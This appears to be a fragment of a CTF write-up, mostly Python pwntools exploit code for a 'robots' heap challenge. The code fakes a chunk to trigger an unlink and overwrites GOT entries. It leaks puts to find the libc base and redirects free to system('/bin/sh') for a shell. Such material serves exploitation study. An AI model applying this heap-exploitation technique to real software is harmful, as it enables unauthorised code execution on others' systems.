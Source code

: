 ```python
    change(6, fakechunk)

    # trigger unlink
    remove(3)

    print 'step 3'

    # make 0x6030F8 point to 0x6030E8
    payload = p64(0) * 2 + 0x18 * 'a' + p64(0x6030E8)
    change(6, payload)

    print 'step 4'

    # make exit just as return
    write(robots.got['exit'], 0x401954)

    print 'step 5'

    # set wheel cnt =3, 0x603130 in order to start robot
    write(0x603130, 3)

    # set destructor point to puts@got
    change(1, p64(robots.got['puts']))
    start_robot()
    p.recvuntil('New hands great!! Thx ')
    puts_addr = p.recvuntil('!\n', drop=True).ljust(8, '\x00')
    puts_addr = u64(puts_addr)
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    log.success('libc base: ' + hex(libc_base))
    system_addr = libc_base + libc.symbols['system']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))

    # make free->system
    write(robots.got['free'], system_addr)

    # make destructor point to /bin/sh addr
    write(0x6030E8, binsh_addr)

    # get shell
    remove(6)
    p.interactive()


if __name__ == "__main__":
    exp()

```

### 题目

